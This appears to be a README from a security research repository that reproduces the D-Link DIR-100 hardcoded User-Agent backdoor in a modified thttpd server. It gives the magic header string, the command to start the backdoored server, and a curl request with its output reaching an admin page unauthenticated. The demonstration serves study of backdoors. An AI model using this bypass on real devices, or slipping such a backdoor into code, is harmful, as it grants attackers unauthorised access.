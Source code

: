 # D-Link DIR-100 backdoor
- **Type**: hardcoded credentials
- **Affected versions**: 1.13, Revision A, 2011-09-15


## Backdoor
Setting the `"User-Agent"` header field to `"xmlset_roodkcableoj28840ybtide"` in an HTTP request
allows an attacker to bypass any authentication check.

## Triggering the backdoor
First, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/thttpd -D -u root -p 8080 -d ./example-server
```
Normally, only pages found under `localhost:8080/public/*` should be accessible. However, in a
separate terminal, we can trigger the backdoor via a simple HTTP request:
```console
$ curl -v -A xmlset_roodkcableoj28840ybtide http://localhost:8080/index.html
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /index.html HTTP/1.1
> Host: localhost:8080
> User-Agent: xmlset_roodkcableoj28840ybtide
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: thttpd/2.23beta1 26may2002
< Content-Type: text/html; charset=iso-8859-1
< Date: Thu, 12 Dec 2024 08:56:40 GMT
< Last-Modified: Tue, 10 Dec 2024 13:21:22 GMT
< Accept-Ranges: bytes
< Connection: close
< Content-Length: 170
<
<!DOCTYPE html>
<html>
    <head>
        <title> Admin page </title>
    </head>

    <body>
        <p> This page is available to admins only. </p>
    </body>
</html>
* Closing connection
```


## Reference
<https://www.zdnet.com/article/d-link-routers-found-to-contain-backdoor/>
